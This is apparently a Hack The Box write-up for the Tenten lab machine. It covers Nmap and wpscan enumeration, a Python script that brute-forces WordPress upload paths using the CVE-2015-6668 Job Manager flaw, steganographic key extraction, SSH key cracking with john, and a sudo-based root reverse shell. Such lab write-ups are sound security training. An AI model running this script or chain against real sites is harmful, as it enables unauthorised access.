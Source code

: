 ```yaml
---
layout: PostSimple
date: 2020-01-12
title:     "Hack The Box - Tenten"
tags: ['linux','medium','sudo','wordpress','plugin']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/1.png)

We are going to pwn Tenten from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/8>


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/2.png)<br/>
Since its a wordpress site we can enumerate using ``wpscan`` to get see if there is any users and plugins available<br/>
Found a Plugin called ``job-manager``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/3.png)

Found an User  ``takis``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/4.png)

I started searching for any exploits available for that plugin and found

>https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/

From the blog I found there is a directory ``/index.php/jobs/apply/@@/``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/5.png)

As we can see there is an ID and when I changed to some random numbers and job title has been changed.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/6.png)

So I started trying some random number to check if there is anything useful for us.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/7.png)<br/>
Found this ``HackerAccessGranted`` from the ID 13 , Which looks suspecious.

In WordPress there is directory structure for the uploaded files is recognized by ``/wp-content/uploads/%year%/%month%/%filename%``
 
There is a python script given in the above Link ``CVE-2015-6668`` which helps to find the exact directory of the file location by bruteforcing.

I did some modifications on the script 

> - Changed the year range to the year of the box released.
> - Changed the extensions.

```
import requests

print """  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
"""  
website = raw_input('Enter a vulnerable website: ')  
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2017,2018):  
    for i in range(1,13):
        for extension in {'jpg','jpeg','png','pdf','txt'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/8.png)<br/>
It found the exact location of the file ``HackerAccessGranted``

Opened the link and its an image.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/9.png)

This is the image we found!!<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/10.1.jpg)

Downloaded it to my machine to check with ``steghide`` to see if there is anything hidden.

> steghide - a steganography program

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/10.png)

Got SSH Private key so lets use ssh2john before cracking it with john<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/11.png)<br/>
I saved the output as ``ssh2john`` and I gave it to ``john`` to crack the password.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/12.png)<br/>

So the password is ``superpassword``. We already know there is an user named ``takis``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/13.png)

## Privilege Escalation:

Like always I started with ``sudo -l``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/14.png)

Looks like we can run ``fuckin`` as root without password.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/15.png)<br/>
``fuckin`` seems to be a script that contains arguments and that we need to pass on.

Lets try with ``whoami``

Now its time to get reverse shell as root using the ``fuckin``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/16.png)

Started my listener<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/17.png)

I got Root!



